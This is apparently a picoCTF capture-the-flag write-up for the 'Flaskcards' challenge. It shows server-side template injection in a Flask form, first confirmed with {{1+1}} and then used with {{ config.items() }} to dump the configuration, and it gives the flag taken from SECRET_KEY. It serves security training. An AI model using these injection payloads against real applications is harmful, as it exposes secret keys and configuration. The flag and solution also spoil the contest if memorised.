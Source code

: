 # Flaskcards
## Question
>We found this fishy [website](http://2018shell.picoctf.com:23547/) for flashcards that we think may be sending secrets. Could you take a look?

## Hint
>Are there any common vulnerabilities with the backend of the website?

>Is there anywhere that filtering doesn't get applied?

>The database gets reverted every 2 hours so your session might end unexpectedly. Just make another user

# Solution
Let's connect and register to access the backend, as suggested by the hints.

Once logged in with your new account, navigate through the different actions (Create Card, List Cards, Admin, Logout). Let's see if the form to create a new card is vulnerable to injection. As the title suggests, the site is likely developed in python using the [Flask framework](https://flask.palletsprojects.com/en/1.1.x/). Googling for vulnerabilities, we find the following resource: https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti.

Injecting {{1+1}} to the `Question` field and anything to the `Answer` field confirms that the form is vulnerable (go to `List Cards` and you will see that the Question is equal to `2` (computation).

Now that the vulnerability is confirmed, we can create a second card and inject `{{ config.items() }}` in the question field.

Going to the list cards page reveals the flag under the `SECRET_KEY` variable:
~~~~
Question:dict_items([('JSONIFY_MIMETYPE', 'application/json'), ('TESTING', False), ('BOOTSTRAP_LOCAL_SUBDOMAIN', None), ('SQLALCHEMY_ECHO', False), ('BOOTSTRAP_CDN_FORCE_SSL', False), ('SESSION_COOKIE_PATH', None), ('SQLALCHEMY_DATABASE_URI', 'sqlite://'), ('SERVER_NAME', None), ('EXPLAIN_TEMPLATE_LOADING', False), ('TRAP_BAD_REQUEST_ERRORS', None), ('USE_X_SENDFILE', False), ('JSON_AS_ASCII', True), ('TEMPLATES_AUTO_RELOAD', None), ('DEBUG', False), ('SQLALCHEMY_TRACK_MODIFICATIONS', False), ('SQLALCHEMY_NATIVE_UNICODE', None), ('SQLALCHEMY_MAX_OVERFLOW', None), ('SQLALCHEMY_POOL_SIZE', None), ('ENV', 'production'), ('SESSION_COOKIE_NAME', 'session'), ('SECRET_KEY', 'picoCTF{secret_keys_to_the_kingdom_584f8327}'), ('APPLICATION_ROOT', '/'), ('SESSION_REFRESH_EACH_REQUEST', True), ('SQLALCHEMY_POOL_TIMEOUT', None), ('SQLALCHEMY_RECORD_QUERIES', None), ('BOOTSTRAP_USE_MINIFIED', True), ('SQLALCHEMY_POOL_RECYCLE', None), ('MAX_COOKIE_SIZE', 4093), ('SESSION_COOKIE_DOMAIN', False), ('SQLALCHEMY_COMMIT_ON_TEARDOWN', False), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SESSION_COOKIE_SAMESITE', None), ('BOOTSTRAP_QUERYSTRING_REVVING', True), ('SQLALCHEMY_BINDS', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(31)), ('TRAP_HTTP_EXCEPTIONS', False), ('MAX_CONTENT_LENGTH', None), ('PROPAGATE_EXCEPTIONS', None), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_HTTPONLY', True), ('JSON_SORT_KEYS', True), ('PREFERRED_URL_SCHEME', 'http'), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('BOOTSTRAP_SERVE_LOCAL', False), ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(0, 43200))]) 
~~~~

# Flag
`picoCTF{secret_keys_to_the_kingdom_584f8327}`
